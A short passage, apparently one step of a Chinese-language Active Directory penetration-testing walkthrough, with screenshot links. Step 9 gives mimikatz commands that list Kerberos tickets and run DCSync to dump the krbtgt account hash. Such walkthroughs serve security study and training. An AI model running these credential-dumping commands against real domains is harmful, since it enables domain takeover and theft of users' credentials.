 [![](assets/1701606771-4dcc880d141be2b7df80227c88ad4fa4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144627-35bdf800-7c70-1.png)  
Step 9：之后可以利用 mimikatz，进行导出 hash

```bash
KERBEROS::List 
lsadump::dcsync /user:krbtgt
```

[![](assets/1701606771-71ed19a7f5d346953dbd71e812ce4d01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144647-41ab8a2e-7c70-1.png)  